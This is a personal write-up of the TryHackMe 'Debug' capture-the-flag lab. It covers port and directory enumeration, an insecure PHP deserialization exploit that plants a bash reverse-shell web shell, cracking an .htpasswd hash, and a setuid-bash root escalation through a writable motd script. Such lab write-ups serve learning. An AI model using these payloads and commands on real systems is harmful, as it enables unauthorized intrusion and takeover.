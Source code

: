 # Hack Log 8 - TryHackMe [Debug](https://tryhackme.com/room/debug)

📆:**Date:** 2025-06-20  
🔍**Objective:** Obtain flags.  
🎯**Target**: TryHackme Debug (Lab CTF)  

---  

## 🛠️ Actions Taken  

### Port and Service Enumeration  

```
nmap -A -p- 10.10.253.220
```

| Port    | Service  | Description                    |
|---------|----------|--------------------------------|
| 22 | ssh    | OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)|                 |
| 80 | http     | Apache httpd 2.4.18                  |  

### Directory Enumeration  

```
gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://10.10.253.220/
```

→ Found following directories  
  - /grid
  - /backup
  - /javascript
  - /javascripts  

### Insecure Deserialization

→ Upon visiting "/backup" found an interesting file called **index.php.bak**. There was some php code in the file.  

```php
<?php

class FormSubmit {

public $form_file = 'message.txt';
public $message = '';

public function SaveMessage() {

$NameArea = $_GET['name']; 
$EmailArea = $_GET['email'];
$TextArea = $_GET['comments'];

	$this-> message = "Message From : " . $NameArea . " || From Email : " . $EmailArea . " || Comment : " . $TextArea . "\n";

}

public function __destruct() {

file_put_contents(__DIR__ . '/' . $this->form_file,$this->message,FILE_APPEND);
echo 'Your submission has been successfully saved!';

}

}

// Leaving this for now... only for debug purposes... do not touch!

$debug = $_GET['debug'] ?? '';
$messageDebug = unserialize($debug);

$application = new FormSubmit;
$application -> SaveMessage();


?>
```

→ Upon analyzing the following code   
  ```php
  $debug = $_GET['debug'] ?? '';
  $messageDebug = unserialize($debug);
  ```
  - The value in "debug" parameter is serialized and it is unserialized before getting stored in "$messageDebug".  

  - The presence of php magic function "__destruct()" which is writing the file "form_file" in "/". (The name of the file is "message.txt").   
  ```php
  public function __destruct() {

  file_put_contents(__DIR__ . '/' . $this->form_file,$this->message,FILE_APPEND);
  echo 'Your submission has been successfully saved!';
  
  }
  ```

     

  - This strongly points to insecure deserialization since value in "debug" is user controlled and php magic function is also present.  

→ Confirming insecure deserialization   
  - Creating a script to craft an url encoded serialized object.  
  ```php
  <?php

  class FormSubmit
  {
    public $form_file = "pwned.txt";
    public $message    = "Testing insecure deserialization";
  }
  $payload = new FormSubmit();
  $serialized = serialize($payload);
  $encoded = urlencode($serialized);
  echo "$encoded\n";
  ?>
  ```
  - Injected the output in "http://10.10.253.220/index.php/?debug="  

  - Doing curl on "http://10.10.253.220/pwned.txt" returns "Testing insecure deserialization" which confirms insecure deserialization.  


### Exploitation  

→ Crafting a reverse shell using the same script as above. 
  ```php
  <?php


class FormSubmit{

	public $form_file="shell.php";
	public $message ="<?php system('bash -c \"bash -i >& /dev/tcp/10.10.123.254/4444 0>&1\"'); ?>"; 

}

$payload = new FormSubmit();



$serialized = serialize($payload);

$encoded = urlencode($serialized);



echo "$encoded\n";
```

→ Started a listener on local machine and visited "http"//10.10.253.220/shell.php" and received a reverse shell and stabilized it.  


### Post Ecploitation   

→ Got access as user "www-data".  
→ Found a file named ".htpasswd" in "/var/www/html" directory.  
→ File contained a username "james" and it's password hash.  

### Privilege Escalation  

→ Horizontal Privilege Escalation      
  - Copied the hash to a file named "password.hash"  
  - Using john cracked the password hash  
    ```
    john password.hash --wordlist=/usr/share/wordlists/rockyou.txt
    ```

  - Used the cracked password "jamaica" to ssh as james.     
  - Found user flag in /home/james directory.  
  - Found a file "Note-to-James.txt" in same directory.  
  - The file mentioned admin giving special permission to james to modify ssh messages.  

→ Escalation to root  
  - Read the ".bash_histroy" and found reference for "/etc/update-motd.d/"  
  - Visited the mentioned directory and found  
    - The files were created/owned by root   
    - But group james is granted collaborative access (read/write/execute) which is evident from previously found note.  
  - Added the following entry in the "/etc/update-motd.d/00-header"  
    ```bash
    echo "cp /bin/bash /home/james/bash && chmod u+s /home/james/bash" >> /etc/update-motd.d/00-header
    ```
  - Logged out from ssh.  
  - Logged in again via ssh and executed "./bash -p" which resulted in a root shell.  
  - Obtained the root flag.  



## 🔍 Key Findings  

- Insecure Deserialization which lead to arbitrary code injection.
- Credentials lying in the ".htpasswd" file.
- Special permissons granted to the user "james" to read/write the files owned by root.


## 📚 What I Learned  

- Insecure Deserialization can be dangerous as it allows an attacker to inject malicious payloads.
- Not to put credentials and other crucial information in files which are can be accessed easily.






  
  

